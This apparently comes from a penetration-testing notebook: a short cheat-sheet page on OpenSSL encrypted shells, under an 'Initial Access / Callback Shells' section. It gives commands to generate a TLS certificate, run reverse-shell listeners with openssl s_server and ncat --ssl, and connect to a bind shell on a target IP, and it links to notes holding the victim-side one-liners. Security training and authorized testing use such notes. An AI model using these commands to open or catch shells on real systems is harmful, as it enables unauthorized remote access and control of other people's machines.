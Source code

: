 # OpenSSL

## 01 - Reverse Shell

- Generate TLS certificate.

```
user@pentestos:~$ openssl req -x509 -newkey rsa:4096 -keyout private.key -out certificate.crt -days 365 -nodes
```

- Shell handler.

```
user@pentestos:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>

user@pentestos:~$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell

- Shell handler

```
user@pentestos:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>

user@pentestos:~$ ncat --ssl <target_IP> <target_PORT>
```


---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/B - Initial Access/Callback Shells/OneLiners/Linux/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/B - Initial Access/Callback Shells/OneLiners/Linux/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]